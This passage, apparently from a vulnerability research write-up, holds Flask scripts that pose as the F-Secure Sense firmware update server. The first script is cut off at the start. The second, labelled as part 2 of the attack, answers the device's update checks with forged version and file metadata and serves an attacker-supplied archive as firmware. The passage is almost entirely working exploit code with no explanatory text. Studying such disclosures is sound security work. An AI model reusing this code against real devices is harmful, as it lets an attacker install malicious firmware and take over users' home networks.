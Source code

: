 ```python


@app.route('/q', methods = ['POST'])
def hello():
    return '{"updates": [{"cookie": "96c7329d", "version": 1554196376, "type": "sense-firmware"}]}'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

----------------------------------------------------------

**fw_upgrade2.py** - Flask script to execute part 2 of the attack

```python
from flask import Flask
import os

app = Flask(__name__)


@app.route('/f/bd0feb5e499782182c6315d06d2803fcd1c24fcc88e9a02a2012050b0d4d0832_archive', methods = ['GET'])
def fun3():
    x = open('out2', 'rb')
    content = x.read()
    x.close()
    return content

@app.route('/o;t=sense-firmware;v=1554196377;c=96c7329d;pv=1554196376;pc=96c7329d', methods = ['GET'])
def fun2():
    return '{"guts2ar1": {"id": "bd0feb5e499782182c6315d06d2803fcd1c24fcc88e9a02a2012050b0d4d0832_archive", "size": '+str(os.path.getsize('out2'))+'}}'
#16706357


@app.route('/h;t=sense-firmware;v=1554196377;c=96c7329d', methods = ['GET'])
def fun():
    return '{"cookie": "96c7329d", "files": [{"filename": "sense-firmware.mf", "sha256": "fe538892b4db5efaa01a65ce88854442c7cf9d8695b571b1b522f22182169612", "size": 10062}, {"filename": "openwrt-rtkmips-rtl8198c-AP-fw.bin", "sha256": "afd39c13d05b41904ac28ccd17a940ccc69d072dffa94c7baaf1aa3e8ad7aacb", "size": 17301508}, {"filename": "sense-firmware.ini", "sha256": "047eb19ca399fe94254667734ef3489b319158237410d425d78a0735a875f9d9", "size": 239}, {"filename": "fsupgrade", "sha256": "59cbc90c560ceeda6292a0a8b64377144566a77e25d02cdeb9b33e511ddeebc9", "size": 1844}], "title": "F-Secure Sense Firmware Update 2019-07-02_01", "type": "sense-firmware", "version": 1554196377}'


@app.route('/q', methods = ['POST'])
def hello():
    return '{"updates": [{"cookie": "96c7329d", "version": 1554196377, "type": "sense-firmware"}]}'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```
